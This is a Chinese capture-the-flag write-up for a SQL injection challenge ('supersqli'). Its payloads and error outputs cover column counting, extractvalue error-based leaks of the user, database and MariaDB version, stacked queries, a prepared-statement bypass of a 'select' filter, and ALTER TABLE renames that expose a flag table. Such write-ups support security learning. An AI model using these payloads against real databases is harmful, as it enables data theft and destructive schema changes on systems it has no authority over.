 ```
-1' order by 1#
-1' order by 2#
-1' order by 3# 报错，说明存在3列

1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#
error 1105 : XPATH syntax error: '~root@localhost~'
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
error 1105 : XPATH syntax error: '~supersqli~'
1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#
error 1105 : XPATH syntax error: '~10.3.15-MariaDB~'

过滤了select无法用报错注入进一步注入。

堆叠注入
-1';show tables;#

-1';show columns from `1919810931114514`;#
-1';desc `1919810931114514`#

方法一：为了绕过select，采用预编译方式
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句

1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#  

方法二: 更改表列名

可以猜测上述后台采用如下语句
select * from words where id = '';
将表1919810931114514名字改为words，flag列名字改为id，就能得到flag内容

修改表名(将表名user改为users)
alter table user rename to users;
修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);

1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

1' or 1=1#
```

**Resources**

https://zhuanlan.zhihu.com/p/78989602

## 极客大挑战-2019-Havefun
